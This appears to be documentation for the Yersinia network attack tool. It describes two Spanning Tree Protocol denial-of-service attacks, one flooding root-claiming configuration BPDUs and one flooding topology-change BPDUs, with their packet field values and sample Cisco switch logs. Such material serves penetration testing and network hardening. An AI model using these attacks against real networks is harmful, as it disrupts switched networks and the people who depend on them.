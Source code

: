 [![Build Status](https://travis-ci.org/tomac/yersinia.svg?branch=master)](https://travis-ci.org/tomac/yersinia)

Spanning Tree
-------------

### #1: DOS attack sending conf BPDUs ###

Let's send some conf BPDUs claiming be root!!! By sending continously conf BPDU with root pathcost 0, randomly generated bridge id (and therefore the same root id), and some default values for other fields, we try to annoy the switches close to us, causing a DoS when trying to parse and recalculate their STP engines.

```
    Source MAC: randomly generated.
    Destination MAC: 01:80:c2:00:00:00
    Bridge ID: 8000:source_mac
    Root ID: 8000:source_mac
    Hello time: 2
    Forward delay: 15
    Max age: 20
    Root pathcost: 0

    <output from the cisco log>
    01:20:26: STP: VLAN0001 heard root 32768-d1bf.6d60.097b on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-9ac6.0f72.7118 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-85a3.3662.43dc on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-3d84.bc1c.918e on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-b2e2.1a12.dbb4 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-4ba6.2d45.5844 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-deb0.4f14.7288 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-4879.8036.0e24 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-2776.e340.9222 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-299e.de76.c07d on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-d38b.bc5b.e90d on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-78ee.0205.afdb on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-b32b.e969.81b1 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-b16b.c428.88a3 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-dd01.1436.9044 on Fa0/8
    </output>
```

### #2: DOS attack sending tcn BPDUs ###

This attack sends continously tcn BPDUs causing the root switch to send conf BPDUs acknowledging the change. Besides, the root switch will send topology change notifications to the members of the tree, and they will have to recalculate their STP engine to learn the new change.

```
    Source MAC: randomly generated.
    Destination MAC: 01:80:c2:00:00:00

    <output from the cisco log>
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
    01:35:39: STP: VLAN0001 Topology Change rcvd on Fa0/8
```